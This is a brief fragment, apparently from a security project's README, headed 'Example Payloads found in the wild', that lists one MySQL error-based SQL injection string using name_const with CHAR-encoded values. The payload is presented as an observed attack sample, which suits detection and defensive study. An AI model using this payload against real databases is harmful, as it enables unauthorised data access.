 

Exmaple Payloads found in the wild

- ' or (1,2)=(select*from(select name_const(CHAR(67,101,110,85,89,66,90,80,73,80),1),name_const(CHAR(67,101,110,85,89,66,90,80,73,80),1))a) -- 'x'='x